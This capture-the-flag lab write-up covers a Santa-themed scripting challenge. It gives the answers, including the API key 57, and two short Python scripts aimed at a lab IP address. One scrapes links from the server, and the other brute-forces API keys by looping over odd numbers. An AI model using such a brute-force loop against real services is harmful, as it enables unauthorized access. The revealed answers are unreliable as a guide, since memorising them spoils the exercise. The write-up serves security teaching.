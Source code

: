 ```yaml
---
description: Scripting
---
```


# Help! Where is Santa?

## Video

{% embed url="https://www.youtube.com/watch?v=0AQHBrxYnqI" %}

## Challenge

What is the port number for the web server?

![](../.gitbook/assets/image%20%28113%29.png)

{% hint style="success" %}
8000
{% endhint %}

Without using enumerations tools such as Dirbuster, what is the directory for the API?  \(without the API key\)

![](../.gitbook/assets/image%20%28121%29.png)

![](../.gitbook/assets/image%20%28128%29.png)

{% code title="santa.py" %}
```python
# Import the libraries we downloaded earlier
# if you try importing without installing them, this step will fail
from bs4 import BeautifulSoup
import requests 

# replace testurl.com with the url you want to use.
# requests.get downloads the webpage and stores it as a variable
html = requests.get('http://10.10.46.137:8000/') 

# this parses the webpage into something that beautifulsoup can read over
soup = BeautifulSoup(html.text, "lxml")
# lxml is just the parser for reading the html 

# this is the line that grabs all the links # stores all the links in the links variable
links = soup.find_all('a') 
for link in links:      
    # prints each link    
    if "href" in link.attrs:
        print(link["href"])

```
{% endcode %}

```python
python3 santa.py |uniq
```

![](../.gitbook/assets/image%20%28125%29.png)

{% hint style="success" %}
/api/
{% endhint %}

Where is Santa right now?

![](../.gitbook/assets/image%20%28112%29.png)

```python
#!/usr/bin/env python3
import requests 

for api_key in range(1,100,2):
    print(f"api_key {api_key}")
    html = requests.get(f'http://10.10.46.137:8000/api/{api_key}') 
    print(html.text)
```

![](../.gitbook/assets/image%20%28127%29.png)

{% hint style="success" %}
Winter Wonderland, Hyde Park, London.
{% endhint %}

Find out the correct API key. Remember, this is an odd number between 0-100. After too many attempts, Santa's Sled will block you. 

To unblock yourself, simply terminate and re-deploy the target instance \(10.10.127.91\) 

{% hint style="success" %}
57
{% endhint %}

